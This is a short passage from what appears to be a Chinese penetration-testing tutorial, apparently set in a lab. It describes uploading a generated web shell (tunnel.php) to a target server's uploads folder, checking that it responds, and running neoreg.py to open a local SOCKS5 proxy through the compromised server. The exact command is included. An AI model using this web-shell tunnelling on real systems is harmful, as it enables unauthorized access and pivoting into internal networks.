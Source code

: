 将生成的shell文件上传至目标服务器。

![image-20230102191329584](../../images//image-20230102191329584.png)

上传后访问路径，如果显示如下空白则代表没有问题，直接做代理

![image-20230102191419849](../../images//image-20230102191419849.png)

使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理

```
python3 neoreg.py -k fsec.io -p 1099 -u http://172.16.1.4/hackable/uploads/tunnel.php
-k 指定连接密码 -p 指定socks监听端口 -u 指定shell代理路径
```
